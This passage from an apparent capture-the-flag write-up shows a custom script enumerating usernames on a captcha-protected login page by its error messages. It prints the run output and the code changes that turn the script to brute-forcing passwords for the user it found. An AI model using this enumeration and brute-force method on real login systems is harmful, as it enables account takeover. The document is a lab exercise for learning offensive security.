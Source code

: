So the code above iterates through the usernames and tries to login. As it does that, it will test for the captcha prompt. If there is a captcha prompt, it will interpret it and request a login again. Upon finding the valid login via an output change ... we will know :)

```bash
┌──(root㉿kali)-[~/Desktop/capture]
└─# python3 myhydra.py
1 The user 'rachel' does not exist
2 The user 'rodney' does not exist
3 The user 'corrine' does not exist
4 The user 'erik' does not exist
5 The user 'chuck' does not exist
...
302 The user 'solomon' does not exist
303 The user 'dewitt' does not exist
304 The user 'hilario' does not exist
305 The user 'vilma' does not exist
306 The user 'hugh' does not exist
307 The user 'natalie' found!!!!

```

Lets test and see the new error message to expand the code to test for passwords.

![[Pasted image 20230506224919.png]]

The new message is now:
Error: Invalid password for user 'natalie' 

Let roll Autobots!

This is the only snippet of the code I needed to change. It forces username to be our identified username and we then iterate on passwords instead. Later on line 110, I change the processing to output a valid or invalid password. I could make it better ... for later. I want to finish this box.

```python
line 76 (ish)
username = 'natalie'
password = 'test'
counter = 0
# Read the usernames and passwords from the files
usernames = read_file(username_file)
passwords = read_file(password_file)

# iterate through the usernames 
#for username in usernames:
# iterate through the passwords 
for password in passwords:

...
line 110 (ish) and 122 (ish)
        # Test for username
        if process_response(response, 'does not exist'):
            log(f"{counter} The user '{username}' does not exist")
        else:
            # Test for password
            if process_response(response, 'Invalid password for user'):
                log(f"{counter} Invalid password '{password}' for valid user '{username}'")
            else:
                log(f"{counter} >>>>  Valid password '{password}' for user '{username}' <<<<")
                break
```
